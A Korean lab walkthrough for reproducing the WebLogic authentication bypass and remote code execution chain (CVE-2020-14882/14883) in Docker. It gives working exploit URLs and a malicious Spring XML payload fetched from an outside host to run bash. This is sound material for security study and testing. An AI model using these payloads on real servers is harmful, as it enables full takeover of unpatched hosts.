 # Weblogic 사전 인증 원격 명령 실행 (CVE-2020-14882, CVE-2020-14883)

Oracle WebLogic Server는 Java EE 표준을 사용하여 엔터프라이즈 애플리케이션을 구축하고 소유 비용이 저렴한 안정적이고 확장 가능한 런타임에 배포하는 업계 최고의 애플리케이션 서버입니다.

[Oracle Critical Patch Update Advisory - 2020년 10월] (https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle은 Chaitin Tech, CVE-2020-14882 및 CVE-2020-14883에서 보안 연구원 @Voidfyoo가 제출한 보안 취약점 2개를 수정했습니다.

CVE-2020-14882를 통해 원격 사용자는 관리자 콘솔 구성 요소에서 인증을 무시할 수 있고, CVE-2020-14883을 통해 인증된 사용자는 관리자 콘솔 구성 요소에서 모든 명령을 실행할 수 있습니다. 인증되지 않은 원격 공격자는 이 두 가지 취약성의 연쇄를 사용하여 HTTP를 통해 Oracle WebLogic 서버에서 임의의 명령을 실행하고 호스트를 완전히 제어할 수 있습니다.

References:

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

다음 명령을 실행하여 Weblogic 서버 12.2.1.3을 시작합니다:

```
docker compose up -d
```

시작이 완료되면 `http://your-ip:7001/console`을 방문하여 관리자 콘솔 로그인 페이지를 확인합니다.

## Exploit

이 URL을 사용하여 콘솔 구성 요소의 인증을 무시하는 방법:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

지금은 웹쉘을 업로드할 권한이 없습니다:

![](2.png)

두 번째 취약점인 CVE-2020-14883은 `com.tangosol.coherence.mvel2.sh .ShellSession`을 통한 것이며, 다른 하나는 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`를 통한 것입니다.

다음 URL을 방문하여 취약점 2개를 연결하고 `com.tangosol.coherence.mvel2.sh .ShellSession`의 명령을 실행합니다:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

'touch /tmp/success1'이 컨테이너 내부에서 성공적으로 실행되었습니다:

![](3.png)

10.3.6에는 `com.tangosol.coherence.mvel2.sh .ShellSession` 클래스가 없기 때문에 이 공격 방법은 Weblogic 12.2.1 이상에서만 사용할 수 있습니다.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`는 CVE-2019-2725에서 처음 도입된 더 일반적인 공격이며 모든 웹 로직 버전에 사용할 수 있습니다.

`FileSystemXmlApplicationContext`를 이용하려면 조작된 XML 파일을 만들어 `http://example.com/rce.xml`과 같이 Weblogic이 액세스할 수 있는 서버에 제공해야 합니다:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

그런 다음 다음 URL을 통해 Weblogic이 XML을 로드하고 명령을 실행합니다:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

이 공격의 단점은 Weblogic 서버가 악의적인 XML에 액세스할 수 있어야 한다는 것입니다.

